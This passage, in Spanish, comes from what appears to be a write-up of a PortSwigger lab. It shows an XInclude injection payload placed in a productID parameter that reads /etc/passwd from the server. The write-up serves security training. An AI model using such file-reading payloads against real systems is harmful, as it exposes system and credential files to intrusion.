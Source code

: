 Vamos a copiar el payload el cual será el siguiente y que colocaremos en el parámetro `productID`.

```plaintext
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

<p align="center">
     <img src="/assets/images/portswigger/exploiting_xinclude_to_retrieve_files/6.png" width="1000">
</p><br>

Con el payload ya colocado en el `productID` ejecutamos la petición dándole a `send` y como vemos se ha ejecutado perfectamente y nos muestra el contenido `/etc/passwd`.

<p align="center">
     <img src="/assets/images/portswigger/exploiting_xinclude_to_retrieve_files/7.png" width="1000">
</p><br>
